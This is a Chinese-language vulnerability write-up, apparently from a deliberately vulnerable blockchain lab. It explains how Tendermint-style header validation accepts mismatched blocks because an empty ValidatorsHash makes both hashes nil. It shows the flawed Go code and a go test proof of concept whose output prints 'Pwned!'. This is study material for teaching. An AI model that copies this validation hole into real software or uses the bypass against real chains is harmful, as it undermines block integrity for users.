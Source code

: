 # [DC-05] 区块头验证不当

## 漏洞标签

`header`;

`validate`;

## 漏洞描述

区块头验证不当(Improper Check of Header)

验证区块头时，会检验被验证区块和经过签名的区块是否合法。对`ValidatorsHash`验证不当。因为`lite`客户端在发送时不会加上`ValidatorsHash`，所以对于`lite`客户端来说`ValidatorsHash`恒为空。这样就使得不同的区块可以通过验证。

## 漏洞分析

```go
func ValidateBlock(meta *types.Block, sh types.SignedHeader) error {
    if meta == nil {
        return errors.New("expecting a non-nil Block")
    }
    err := ValidateHeader(&meta.Header, sh) // XuanMao: track
    if err != nil {
        return err
    }
    if !bytes.Equal(meta.Data.Hash(), meta.Header.DataHash) {
        return errors.New("Data hash doesn't match header")
    }
    return nil
    }
```

```go
func ValidateHeader(head *types.Header, sh types.SignedHeader) error {
    if head == nil {
        return errors.New("expecting a non-nil Header")
    }
    if sh.Header == nil {
        return errors.New("unexpected empty SignedHeader")
    }
    // Make sure they are for the same height (obvious fail).
    if head.Height != sh.Height {
        return errors.New("Header heights mismatched")
    }
    // Check if they are equal by using hashes.
    if !bytes.Equal(head.Hash(), sh.Hash()) {//XuanMao: Track
        return errors.New("Headers don't match")
    }
    return nil
}
```

```golang
func (h *Header) Hash() cmn.HexBytes {
 if len(h.ValidatorsHash) == 0 {  // Track
 	return nil
 }
```

## 复现或测试步骤

此处使用test脚本测试

### 使用 go test 脚本测试

```golang
// XuanMao: bug test
func TestLiteValidationIsFallacious(t *testing.T) {
    block := &types.Block{
        Header: types.Header{
            Height: 11,
            Time:   time.Date(2018, 1, 1, 1, 1, 1, 1, time.UTC),
        },
        Data: *new(types.Data),
    }

    t.Log(block)
    commit := types.SignedHeader{
        Header: &types.Header{
            Height: 11,
            Time:   time.Date(2017, 1, 1, 1, 1, 1, 1, time.UTC),
        },
    }
    t.Log(commit)

    if err := proxy.ValidateBlock(block, commit); err == nil {
        t.Log(commit.Hash())
        t.Errorf("Pwned!")
    }
}

```

运行结果

```sh
[root@ main]# go test -v -run=TestLiteValidationIsFallacious
=== RUN   TestLiteValidationIsFallacious
--- FAIL: TestLiteValidationIsFallacious (0.00s)
    hdr_test.go:21: Block{
          Header{
            Version:        {0 0}
            ChainID:        
            Height:         11
            Time:           2018-01-01 01:01:01.000000001 +0000 UTC
            NumTxs:         0
            TotalTxs:       0
            LastBlockID:    :0:000000000000
            LastCommit:     
            Data:           
            Validators:     
            NextValidators: 
            App:            
            Consensus:       
            Results:        
            Evidence:       
            Proposer:       
          }#
          Data{
            
          }#
          EvidenceData{
            
          }#
          nil-Commit
        }#
    hdr_test.go:28: SignedHeader{
          Header{
            Version:        {0 0}
            ChainID:        
            Height:         11
            Time:           2017-01-01 01:01:01.000000001 +0000 UTC
            NumTxs:         0
            TotalTxs:       0
            LastBlockID:    :0:000000000000
            LastCommit:     
            Data:           
            Validators:     
            NextValidators: 
            App:            
            Consensus:       
            Results:        
            Evidence:       
            Proposer:       
          }#
          nil-Commit
        }
    hdr_test.go:31: 
    hdr_test.go:32: Pwned!
FAIL
exit status 1
FAIL	github.com/XuanMaoSecLab/DolphinChain/reproduce/main	0.070s
```

## 修复

由于不能被直接利用，暂无修复

## 相关资料

漏洞代码参考: [哈希验证](https://github.com/tendermint/tendermint/blob/c8a2bdf78ba7aaaf4284fa78c1b9b05c5e7342bc/types/block.go#L179-L181)

本漏洞相关 `Issue` 见 : [Issue](https://github.com/tendermint/tendermint/issues/1302)
